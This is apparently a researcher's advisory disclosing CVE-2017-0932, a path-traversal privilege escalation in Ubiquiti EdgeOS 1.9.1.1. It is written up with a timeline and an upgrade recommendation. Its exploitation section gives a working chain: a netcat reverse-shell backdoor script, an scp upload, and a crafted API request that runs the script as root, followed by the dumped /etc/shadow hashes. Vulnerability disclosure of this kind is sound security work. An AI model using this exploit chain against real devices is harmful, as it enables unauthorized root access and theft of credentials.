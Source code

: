 ```yaml
---
layout: post
title:  "UBNT EdgeOS <= v1.9.1.1 Local Privilege Escalation"
date:   2018-03-05
categories: advisories
tags: embedded-devices hacking-embedded IoT-hacking ubnt cve
lang: en
ref: cve-2017-0932
---
```



UBNT EdgeOS version 1.9.1.1 and prior, consequence of the lack of validation on the input of the Feature functionality, an attacker with access to an operator (read-only) account and ssh connection to the devices, can escalate privileges to admin (root) access in the system.

- Vendor: Ubiquiti Networks
- Device: Edger Router X
- Affected Version: 1.9.1.1 and prior
- CVE-ID: CVE-2017-0932

### Details

The EdgeOS (firmware v1.9.1.1) is susceptible to a local privilege escalation due a Path Traversal vulnerability in the Feature API. This vulnerability allows an attacker with non-privileged access (read-only) to execute commands on the device with the root rights. The attack consists in sending a maliciously crafted file (using scp with a non-privileged account) to the device and then calling the vulnerable API exploiting the Path Traversal. The exploitation will result on the crafted file being executed with root permission, giving the attacker full access to the device.

### Exploitation

First of all, we have to create the following file+directory:

```
$ cat Backdoor/wizard-run
#!/bin/bash
/usr/bin/nc 192.168.2.2:1337 -e /bin/bash &
```


Using a non-privileged 'operator' user, it was possible to upload the file to the device using the scp command:

```
$ scp -r Backdoor operator@192.168.2.1:~
Welcome to EdgeOS

By logging in, accessing, or using the Ubiquiti product, you
acknowledge that you have read and understood the Ubiquiti
License Agreement (available in the Web UI at, by default,
http://192.168.1.1) and agree to be bound by its terms.

operator@192.168.2.1's password: 
wizard-run       
```

After that, using a valid operator session and a path traversal vulnerability, it was possible to call the uploaded file with root privilege:


```
POST /api/edge/feature.json HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: https://192.168.2.1/
Content-Type: application/json
X-CSRF-TOKEN: 4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
X-Requested-With: XMLHttpRequest
Content-Length: 90
Cookie: ip_address_top_user_option=total_bytes; PHPSESSID=i6um09hej0ku2k5ctcp6ib56f1nrqhi7; X-CSRF-TOKEN=4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
Connection: close

{"data":{"scenario":"../../../../../home/operator/Backdoor","action":"load"}}
```


And a remote shell will be created:

```
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 192.168.2.1 44440 received!
id
uid=0(root) gid=102(vyattacfg)
uname -a
Linux ubnt 3.10.14-UBNT #1 SMP Sat Apr 22 06:38:07 PDT 2017 mips GNU/Linux
cat /etc/shadow
root:!:17283:0:99999:7:::
daemon:*:17283:0:99999:7:::
bin:*:17283:0:99999:7:::
games:*:17283:0:99999:7:::
.. snip snip ..
avahi:*:17283:0:99999:7:::
sshd:*:17283:0:99999:7:::
tss:*:17283:0:99999:7:::
ubnt:$1$zKNoUbAo$gomzUbYvgyUMcD436Wo66.:16436:0:99999:7:::
operator:$6$7SVNi.WB68V0QR5t$efMoCyT2H.mEU6M8s2NDSsW1fv7JnT2eAfK2VxuzsIdcYrEvWCILX8G0CYN/4enwrnT1yYjekQa95TxxHxhVj.:16436:0:99999:7:::
```

### Recommendation

Upgrade the firmware to the latest available version.

### Timeline
- 2017-06-14 - Vulnerability discovered and first report to Ubiquiti Networks
- 2017-06-14 - UBNT anwsered and confirmed the vulnerability
- 2017-06-14 - Ubiquiti Networks rewarded with a $1,500 bounty
- 2017-08-30 - Ubiquiti Networks fixed the vulnerability
- 2017-11-24 - Ubiquiti Networks agreed with a partial disclosure of the vulnerability
- 2018-03-05 - Disclosure of technical details

### References

- [Maycon's Page](http://maycon.hacknroll.io/advisories/2018/03/05/CVE-2017-0932.html)
- [HackerOne Partial Report](https://hackerone.com/reports/239719)
- [UBNT Software Release Note](https://community.ubnt.com/t5/EdgeMAX-Updates-Blog/EdgeMAX-EdgeRouter-software-security-release-v1-9-7-hotfix-3/ba-p/2054117)

